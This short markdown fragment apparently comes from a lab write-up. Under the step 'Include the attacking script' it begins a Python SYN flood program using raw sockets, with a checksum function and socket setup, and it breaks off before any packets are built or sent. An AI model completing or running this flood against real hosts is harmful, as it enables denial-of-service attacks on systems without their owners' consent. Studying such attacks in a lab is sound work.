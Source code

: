 ![](TCPPorts.png)


> 3. Include the attacking script.
> # No Random Script
> ``` python
>'''
>    Syn flood program in python using raw sockets (Linux)
>'''
>
># some imports
>import socket, sys, random
>from struct import *
>
># checksum functions needed for calculation checksum
>def checksum(msg):
>    s = 0
>    # loop taking 2 characters at a time
>    for i in range(0, len(msg), 2):
>        w = (msg[i] << 8) + (msg[i+1])
>        s = s + w
>    
>    s = (s>>16) + (s & 0xffff);
>    #s = s + (s >> 16);
>    #complement and mask to 4 byte short
>    s = ~s & 0xffff
>    
>    return s
>
>#create a raw socket
>try:
>    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
>except socket.error as msg:
>    print('Socket could not be created. Error Code : ' + str(msg[0]) + ' Message ' + msg[1])